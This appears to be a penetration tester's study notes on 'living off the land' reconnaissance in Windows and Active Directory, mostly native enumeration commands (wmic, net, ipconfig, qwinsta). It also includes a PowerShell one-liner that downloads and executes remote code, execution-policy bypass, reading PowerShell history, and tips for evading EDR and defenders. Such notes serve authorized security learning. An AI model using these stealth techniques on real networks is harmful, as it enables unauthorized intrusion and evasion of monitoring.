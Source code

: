 # Living Off the Land

## Introduction

* "Living off the land" can be <mark style="color:yellow;">defined as using tools native to Windows and AD</mark>
* This can also be a much more <mark style="color:yellow;">stealthy approach</mark>!

## Environment Commands for Host & Network Recon

```
hostname

[System.Environment]::OSVersion.Version

wmic qfe get Caption,Description,HotFixID,InstalledOn

ipconfig /all

set %USERDOMAIN%

set %logonserver%
```

## Harnessing PowerShell

### Quick Checks

```
Get-Module

Get-ExecutionPolicy -List

Set-ExecutionPolicy Bypass -Scope Process

Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt

Get-ChildItem Env: | ft Key,Value

powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```

## Checking Defenses

### Firewall Checks

```
netsh advfirewall show allprofiles
```

### Windows Defender Check (from CMD.exe)

```
sc query windefend
```

### Get-MpComputerStatus

```
Get-MpComputerStatus
```

### Am I Alone?

* <mark style="color:yellow;">This is very useful for finding out if you are the only one logged in or not</mark>
* This is useful because your actions can be detected by others when moving covertly

```
qwinsta
```

## Network Information

```
arp -a 

ipconfig /all

route print

netsh advfirewall show state
```

## Windows Management Instrumentation (WMI)

* <mark style="color:yellow;">A.K.A. WMI is a scripting engine that is widely used within Windows enterprise environments to retrieve information and to run administrative tasks on local and remote hosts</mark>

### WMI Checks

<mark style="color:yellow;">Prints the patch level and description of the Hotfixes applied:</mark>

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

<mark style="color:yellow;">Displays basic host information to include any attributes within the list:</mark>

```
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List
```

A listing of all processes on host:

```
wmic process list /format:list
```

Displays information about the Domain and Domain Controllers:

```
wmic ntdomain list /format:list
```

Displays information about all local accounts and any domain accounts that have logged into the device:

```
wmic useraccount list /format:list
```

Information about all local groups:

```
wmic group list /format:list
```

Dumps information about any system accounts that are being used as service accounts:

```
wmic sysaccount list /format:list
```

### WMI Cheat Sheet

{% embed url="https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4" %}

## Net Commands

* These commands can be extremely beneficial to use when attempting to enumerate information from the domain
* <mark style="color:yellow;">These commands can be used to query the local host as well as remote hosts</mark>

<mark style="color:yellow;">With Net, we can list information such as</mark>:&#x20;

* Local and domain users
* Groups
* Hosts
* Specific users in groups
* Domain Controllers
* Password requirements

<mark style="color:red;">WARNING</mark>: net.exe commands are often monitored by EDR solutions and can quickly reveal compromise!

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Net Commands Trick

* <mark style="color:yellow;">Use net1 instead of net to execute the same functions without setting off alarms to defenders!</mark>







